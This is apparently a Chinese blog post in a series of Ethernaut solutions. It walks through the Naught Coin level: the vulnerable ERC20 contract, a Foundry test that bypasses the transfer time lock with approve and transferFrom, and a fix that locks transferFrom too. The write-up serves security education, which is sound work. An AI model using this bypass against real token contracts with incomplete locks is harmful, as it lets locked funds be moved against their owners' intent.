 ```yaml
---
title: 'Ethernaut Level 15: Naught Coin - ERC20 approve/transferFrom漏洞'
date: 2025-01-25 16:20:00
updated: 2025-01-25 16:20:00
categories:
  - Ethernaut 系列
  - 进阶攻击篇 (11-20)
tags:
  - Ethernaut
  - Foundry
  - ERC20
  - approve
  - transferFrom
  - 智能合约安全
  - Solidity
series: Ethernaut Foundry Solutions
excerpt: "利用ERC20标准中的 `approve` 和 `transferFrom` 组合，绕过不完整的 `transfer` 函数限制。深入理解ERC20代币标准和继承覆盖的安全性影响，掌握 Naught Coin 关卡的破解技巧。"
---
```


# 🎯 Ethernaut Level 15: Naught Coin - ERC20 approve/transferFrom漏洞

> **关卡链接**: [Ethernaut Level 15 - Naught Coin](https://ethernaut.openzeppelin.com/level/15)  
> **攻击类型**: ERC20 `approve`/`transferFrom` 漏洞  
> **难度**: ⭐⭐☆☆☆

## 📋 挑战目标

作为 `player`，你初始拥有全部的 `NaughtCoin` 代币。然而，合约中的 `transfer` 函数被锁定，十年内无法转移代币。你的目标是在锁定期结束前，将你的全部代币从你的地址中转移出去。

![Naught Coin Requirements](https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg)

## 🔍 漏洞分析

让我们看一下 `NaughtCoin` 合约。它继承自 OpenZeppelin 的 `ERC20` 标准合约。

```solidity
contract NaughtCoin is ERC20 {
    uint public timeLock;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        timeLock = block.timestamp + 10 * 365 days;
        _mint(player, 1000000 * (10**18));
    }

    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock, "NaughtCoin: time lock is active");
            _;
        } else {
            _;
        }
    }

    // Override transfer to lock tokens for the player
    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        return super.transfer(_to, _value);
    }
    
    // Other functions are inherited from ERC20
}
```

合约通过 `override` 重写了 `transfer` 函数，并为其增加了一个 `lockTokens` 修饰符。这个修饰符会检查 `msg.sender` 是否为 `player`，如果是，则要求 `block.timestamp` 大于 `timeLock`（十年之后）。这意味着我们作为 `player`，无法直接调用 `transfer` 函数来转移代-笔。

然而，开发者只重写了 `transfer` 函数，却忽略了 `ERC20` 标准中的另一个重要的代币转移函数：`transferFrom(address from, address to, uint256 amount)`。

`transferFrom` 函数允许一个地址（`spender`）在得到 `owner` 授权（`approve`）后，从 `owner` 的账户中转移代币到任何地址。

由于 `NaughtCoin` 合约没有重写 `transferFrom`，它将直接使用 OpenZeppelin `ERC20` 合约中的原始实现，而这个原始实现是没有 `lockTokens` 修饰符的！

因此，攻击路径变得清晰：
1.  我们（`player`）调用 `approve` 函数，授权给另一个地址（可以是自己，也可以是任何其他地址）转移我们的全部代币。
2.  我们（或被授权的地址）调用 `transferFrom` 函数，将代币从我们的账户中转移出去。

## 💻 Foundry 实现

### 攻击合约代码

在 Foundry 测试中，我们可以直接模拟这个过程。我们甚至不需要一个单独的攻击合约，因为 `player` 可以授权给自己来执行 `transferFrom`。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/15_NaughtCoin.sol";

contract NaughtCoinTest is Test {
    NaughtCoin instance;
    address player1;
    address player2;

    function setUp() public {
        player1 = vm.addr(1);
        player2 = vm.addr(2); // 一个用于接收代币的地址
        instance = new NaughtCoin(player1);
    }

    function testAttacker() public {
        vm.startPrank(player1, player1);

        // 获取 player1 的全部余额
        uint256 playerBalance = instance.balanceOf(player1);

        // 步骤 1: player1 授权给 player1 (自己) 转移全部余额
        instance.approve(player1, playerBalance);

        // 步骤 2: player1 调用 transferFrom 将自己的代币转移到 player2
        instance.transferFrom(player1, player2, playerBalance);

        // 验证结果
        assertEq(instance.balanceOf(player1), 0);
        assertEq(instance.balanceOf(player2), playerBalance);

        vm.stopPrank();
    }
}
```

### 关键攻击步骤

1.  **获取余额**: 首先，确定 `player` 地址拥有的代币总量。
2.  **授权 (`approve`)**: `player` 调用 `instance.approve(spender, amount)`，其中 `spender` 是被授权的地址，`amount` 是授权额度。在这里，我们让 `player` 授权给自己全部余额。
3.  **转移 (`transferFrom`)**: `player` 调用 `instance.transferFrom(from, to, amount)`，其中 `from` 是 `player` 地址，`to` 是接收地址，`amount` 是要转移的数量。

这个过程成功地绕过了 `transfer` 函数的 `timeLock` 限制。

## 🛡️ 防御措施

1.  **完整地覆盖函数**: 当继承一个标准（如ERC20）并打算修改其核心功能时，必须确保所有相关的函数都被一致地修改。在这个案例中，如果 `transfer` 被锁定，那么 `transferFrom` 也应该被同样的方式锁定。

    ```solidity
    // 正确的修复方式
    function transferFrom(address from, address to, uint256 value) public override lockTokens returns (bool) {
        return super.transferFrom(from, to, value);
    }
    ```

2.  **使用成熟的代币锁定合约**: 与其自己实现时间锁，不如使用经过审计和广泛使用的解决方案，例如 OpenZeppelin 的 `TokenTimelock` 合约。这些合约已经考虑了各种边缘情况。

## 🔧 相关工具和技术

-   **ERC20 标准**: 深入理解ERC20代币标准的全部接口是至关重要的，包括 `transfer`, `approve`, `transferFrom`, `balanceOf`, `allowance` 等。
-   **函数覆盖 (`override`)**: 在Solidity中，当子合约需要修改父合约的行为时，使用 `override` 关键字。但必须小心，确保所有相关的行为都被覆盖，以避免产生漏洞。
-   **Foundry `prank`**: `vm.startPrank` 是模拟特定地址（如 `player`）执行操作的强大工具，使得在测试中模拟多步攻击流程变得简单。

## 🎯 总结

**核心概念**:
-   ERC20标准定义了一套代币交互的接口，仅仅限制其中一个（`transfer`）是不够的。
-   `approve` 和 `transferFrom` 的组合是ERC20的一个核心功能，允许第三方代为转移代币。
-   在进行合约继承和函数覆盖时，必须保持逻辑的一致性，否则很容易引入漏洞。

**攻击向量**:
-   识别出合约只限制了 `transfer` 函数，而没有限制 `transferFrom` 函数。
-   利用 `approve` 和 `transferFrom` 的标准功能来绕过不完整的安全限制。

**防御策略**:
-   在修改继承合约的功能时，进行全面的影响分析，确保所有相关的函数都得到一致的处理。
-   优先使用经过社区审计和验证的标准实现，而不是自己重新发明轮子。

## 📚 参考资料

-   [ERC20 Token Standard](https://eips.ethereum.org/EIPS/eip-20)
-   [OpenZeppelin ERC20 Implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)
-   [Solidity Docs: Overriding](https://docs.soliditylang.org/en/latest/contracts.html#function-overriding)